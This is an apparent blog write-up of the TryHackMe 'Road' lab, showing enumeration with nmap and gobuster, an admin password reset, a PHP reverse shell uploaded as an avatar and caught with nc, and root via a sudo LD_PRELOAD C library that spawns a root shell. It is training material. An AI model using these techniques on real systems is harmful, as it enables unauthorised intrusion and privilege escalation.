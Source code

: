 ```yaml
---
layout: post
title:  "TryHackMe: Road"
description: Inspired by a real-world pentesting engagement.
date:   2024-05-07 16:53:59 +0100
categories: jekyll update
---
```


# Road
```sh
export IP=M_ip
```
# Enumeration:

```sh
nmap -A -sC -sV $IP
```
```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-05 20:57 CEST
Nmap scan report for 10.10.0.79
Host is up (0.086s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
|   256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
|_  256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sky Couriers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# In the first dir bruteforce:

```sh
gobuster dir -u http://10.10.0.79 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
```sh
/v2                   (Status: 301) [Size: 305] [--> http://10.10.0.79/v2/]
```
# In the second dir bruteforce:
```sh
gobuster dir -u http://10.10.0.79/v2 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
```sh
/admin                (Status: 301) [Size: 311] [--> http://10.10.0.79/v2/admin/]
```
visiting /v2/admin:

![Screenshot_25](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/55ac3812-1da6-47f6-be51-f3b26915689d)


I found /ResetUser.php  so i was able to changed admin password in burpsuite, like this : 

![Screenshot_27](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/39a6fd6f-d2c8-44c9-8775-2821fe690832)


By doing this i found upload avatar in the Profile
That might get us to manipulate the php-reverse-shell extension to be .php instead of .jpg 


![Screenshot_26](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/6e2bedaf-595b-4c9e-b760-7e7e3d2ce203)



![Screenshot_28](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/ccfb0248-3d53-49fd-8313-411d09fe0cd9)


This is the dir that has our revshell i found it in the admin  /profile.php  source code 

![Screenshot_29](https://github.com/a-9-k/TryHackMe-Write_Ups/assets/53786047/cb24afb2-0e7a-48e7-ac78-6ea2f4e66395)

# Initial Access:

```sh
nc -lvnp 4444             
listening on [any] 4444 ...
connect to [10.8.46.178] from (UNKNOWN) [10.10.0.79] 37742
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:02:45 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
# stabilize the reverse shell :
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
Press CTRL + Z to background process and get back to your host machine
stty raw -echo; fg
export TERM=xterm
```
# Privilege escalation:
```sh
www-data@sky:/$ ss -tulpn
Netid State  Recv-Q  Send-Q     Local Address:Port    Peer Address:Port Process 
udp   UNCONN 0       0          127.0.0.53%lo:53           0.0.0.0:*            
udp   UNCONN 0       0        10.10.0.79%eth0:68           0.0.0.0:*            
tcp   LISTEN 0       70             127.0.0.1:33060        0.0.0.0:*            
tcp   LISTEN 0       511            127.0.0.1:9000         0.0.0.0:*            
tcp   LISTEN 0       4096           127.0.0.1:27017        0.0.0.0:*            
tcp   LISTEN 0       151            127.0.0.1:3306         0.0.0.0:*            
tcp   LISTEN 0       4096       127.0.0.53%lo:53           0.0.0.0:*            
tcp   LISTEN 0       128              0.0.0.0:22           0.0.0.0:*            
tcp   LISTEN 0       511                    *:80                 *:*            
tcp   LISTEN 0       128                 [::]:22              [::]:*
```
```sh
There is:
port 33060: default port for MYSQL  
port 27017: default port for MongoDB
```

```sh

> show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use backup
switched to db backup
> show collections
collection
user
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "fakePassword" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
> 
```
```sh
ssh webdeveloper@IP 
```
```sh
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```
LD_PRELOAD is an environment variable in Unix-like systems, such as Linux, that allows you to specify additional shared libraries to be loaded before all others.
With this i could write c code script to spawn a root shell ,shell.c
```sh
#include <stdio.h> 
#include <stdlib.h>
#include <unistd.h>

void inject()__attribute__((constructor));

void inject() {
 	unsetenv("LD_PRELOAD");
 	setgid(0);
 	setuid(0);
 	system("/bin/bash");
}
```
# compile the code:
```sh
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
and run
sudo LD_PRELOAD=/home/webdeveloper/shell.so sky_backup_utility
```
```sh
webdeveloper@sky:~$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
webdeveloper@sky:~$ sudo LD_PRELOAD=/home/webdeveloper/shell.so sky_backup_utility
root@sky:/home/webdeveloper# cd /root
root@sky:~# ls
root.txt
root@sky:~# cat root.txt 
3a62d897c40a8flag
root@sky:~#

```
